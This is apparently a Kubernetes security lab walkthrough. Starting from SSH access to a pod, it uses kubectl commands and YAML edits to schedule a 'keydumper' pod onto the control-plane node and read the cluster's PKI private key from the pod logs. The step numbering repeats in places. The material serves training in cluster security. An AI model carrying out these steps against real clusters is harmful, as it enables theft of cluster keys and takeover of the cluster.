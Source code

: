 # SSH to Create Pod - Multi Node

### Compromising the cluster

This scenario begins with ssh access to a pod. The ssh credentials can be found in the scenario setup.

3. `kubectl get po -n kube-system` will fail (user doesn't have those rights)
4. `kubectl get po` will work and give you a list of pods in the default namespace
At this point there's several ways to achieve the goal, lets go with hostpath, however as we have a multi-node cluster, we need to make sure that our pod will land on the control plane node that has the key available.

5. There's two steps needed to modify the keydumper manifest to have this work. First, copy the `/key-dumper-pod.yml` file to `/home/sshuser/`, then add the following lines to the spec section of the manifest to allow it to schedule to a control plane node :-
```yaml
  tolerations:
  - key: node-role.kubernetes.io/master
    effect: NoSchedule
```

6. Then we need to specify the node to land on , get the nodes with `kubectl get nodes` then add the following line to the spec. section of the manifest.
```yaml
  nodeName: sshcpmn-control-plane
```


5. Now we need to create a pod that dumps out the PKI private key `kubectl create -f keydumper.yml`
6. and the key should be in the logs `kubectl logs keydumper-pod`
7. profit!
